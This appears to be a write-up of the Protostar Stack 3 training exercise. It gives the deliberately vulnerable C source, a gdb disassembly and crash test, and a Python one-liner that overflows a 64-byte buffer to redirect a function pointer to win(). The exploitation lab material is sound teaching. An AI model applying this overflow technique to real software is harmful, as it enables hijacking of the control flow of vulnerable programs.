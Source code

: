 # PROTOSTAR : STACK 3
[Protostar:Stack3](https://exploit.education/protostar/stack-three/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

We need to fill the **buffer** variable first then append the address of the **win()** function so that the poiner ***fp** goes to the **win()** function.

### **SOLUTION**

Below is the disassembly of the **main()** function
```
user@protostar:/opt/protostar/bin$ gdb -q stack3
Reading symbols from /opt/protostar/bin/stack3...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave  
0x08048478 <main+64>:   ret    
End of assembler dump.
(gdb) 
```

Running input and analyzing the program. **Padding = 68** and as you can see the function pointer jumps to **0x41414141** but since it is not a valid memory address it show **Segmentation Fault**.
```
(gdb) b *0x08048450
Breakpoint 1 at 0x8048450: file stack3/stack3.c, line 18.
(gdb) r
Starting program: /opt/protostar/bin/stack3 

Breakpoint 1, 0x08048450 in main (argc=1, argv=0xbffff874) at stack3/stack3.c:18
18      stack3/stack3.c: No such file or directory.
        in stack3/stack3.c
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
calling function pointer, jumping to 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) 
```

Now lets replace the last four bytes with the address of the **win()** function. Before replacing, lets find the address of the win function first.
```
user@protostar:/opt/protostar/bin$ objdump -t stack3 | grep "win"
08048424 g     F .text  00000014              win
user@protostar:/opt/protostar/bin$ 
```


Filled the **buffer** then appended the string with the address of the **win()** function.
```
user@protostar:/opt/protostar/bin$ (python -c "print 'A'*64 + '\x24\x84\x04\x08'") | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
user@protostar:/opt/protostar/bin$ 
```

